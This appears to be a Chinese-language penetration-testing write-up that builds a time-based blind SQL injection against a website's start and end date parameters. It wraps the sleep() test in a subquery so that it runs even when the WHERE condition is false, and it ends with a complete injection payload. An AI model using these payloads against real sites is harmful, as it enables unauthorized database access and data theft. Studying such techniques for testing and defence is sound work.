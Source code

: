 
```
select count(1) from (select username from admin as t join news as u where 1=1 and if(ascii(substr(user(),1,1))>1,sleep(6),0))total#
```

  
  
这是构造完的语句，发现可以延时，但是换到网站中发现并没有达到延时的效果：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaa4w615NCrqMly1qAlqib4IEIuZXlHXAPAkT2h3lmJ4yIH3RU89QoHjNQ/640?wx_fmt=png&from=appmsg "")  
  
问题出现在条件这里：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaKBv4StYShDvzht4iajuFPCibOEzic8o3U0gven7NGoiauibdhmTFXtiaiawag/640?wx_fmt=png&from=appmsg "")  
  
我们的注入点在这里，注入点是起始时间和终止时间  
  
这个where，后面跟着的这个条件，也就是date_format,我们在不知道有没有记录的条件下，是无法保障他是有内容(条件为真)的，就好比1=2一样，这样可能无法执行后面的延迟语句，这就是为什么在本地调试了之后没问题，但是网站还是无法进行延迟的原因。因为我们不清楚前面的判断条件是否为真。  
  
那我们有没有办法，即使前面的条件为假，也可也执行后面的语句呢？  
  
有的兄弟，有的。我们直接使用子查询  
  
这里给各位师傅们再介绍一下子查询：  
  
子查询是在语句中再嵌入一个sql语句，适合从其他表中提取数据或进行复杂条件判断时使用，最内层的语句会被优先执行，会比一些逻辑运算和算数运算的优先级高。  
  
于是我们构造一个时间盲注子查询语句：
```
#select count(1) from (select username from admin as t join news as u where 1=2 and (select 0 from (select if(ascii(substr(user(),1,1))>1,sleep(6),1))x))TOTAL#
```

  
  
我们来解析一下这个语句  
  
最内层是
```
if(ascii(substr(user(),1,1)>1,sleep(6),1))
```

  
 是一个常见的时间盲注，截取了user()的首位，进行了ascii编码，如果ascii编码的值大于1，就进行sleep(6)的命令。  
  
外面一层是
```
(select 0 from () x)
```

  
 x是给最内层的语句进行一个赋名  
  
这个语句会让系统优先执行最内层的时间盲注语句，然后判断前面的条件是否为真，这样即使前面是1=2，但是已经执行了内层的时间盲注，造成了延迟，这样就可以进行SQL注入的判断了。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaa5jh0gbbp85Wlwc0BUbQcFnEleEegHtPEvRZv4nmbWtH7PiaVPFBDSTQ/640?wx_fmt=png&from=appmsg "")  
  
所以最终我们的payload为
```
2025-06-19 00:00:00','%Y-%m-%d %H:%M:%S') and (select 0 from (select if(ascii(substr(user(),1,1))>1,sleep(6),1))x))TOTAL#
```

